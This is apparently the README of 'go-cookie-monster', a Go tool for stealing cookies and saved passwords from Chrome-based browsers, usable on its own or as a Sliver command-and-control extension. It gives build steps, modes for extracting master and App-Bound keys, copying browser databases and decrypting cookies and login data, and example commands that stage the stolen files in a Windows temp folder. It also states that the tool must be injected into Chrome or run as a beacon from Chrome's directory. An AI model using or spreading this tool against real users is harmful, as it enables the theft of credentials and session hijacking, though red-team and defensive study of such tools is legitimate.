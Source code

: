 # go-cookie-monster

Go-based program for stealing chrome-based browser cookies and passwords, with App-Bound Key support. For use as direct execution or via a Sliver extension.

Credits: [KingOfTheNOPs/cookie-monster](https://github.com/KingOfTheNOPs/cookie-monster)

:rotating_light: The catch is your process must be running out of web browser's application directory. i.e. must inject into Chrome or spawn a beacon from the same directory as Chrome.

## Build

```bash
# build (EXE)
make exe

# build shared library (DLL)
make dll
```

## Usage

Modes
- `keys`: attempt to obtain master and appbound keys
- `files`: attempt to copy databases via a chrome process's handles, fallback to disk
- `cookies`: decrypt the cookies db
- `logindata`: decrypt the login data db

```
Usage of go-cookie-monster [all|keys|files|cookies|logindata]:
  -dbpath string
        path to the database (required in 'cookies' mode)
  -key string
        decryption key (required in 'cookies' mode)
  -outputdir string
        output directory for files (used in 'files' mode)
  -statefile string
        path to the Local State file (used in 'keys' mode)
```

## Examples

```bash
# all modes
.\go-cookie-monster.exe

# get master and/or app-bound keys
.\go-cookie-monster.exe keys

# get a copy of the databases
.\go-cookie-monster.exe files -outputdir "c:\windows\temp"

# decrypt database copies
.\go-cookie-monster.exe cookies -key "\xHH\xHH\xHH..." -dbpath "c:\windows\temp\cookies.db"
```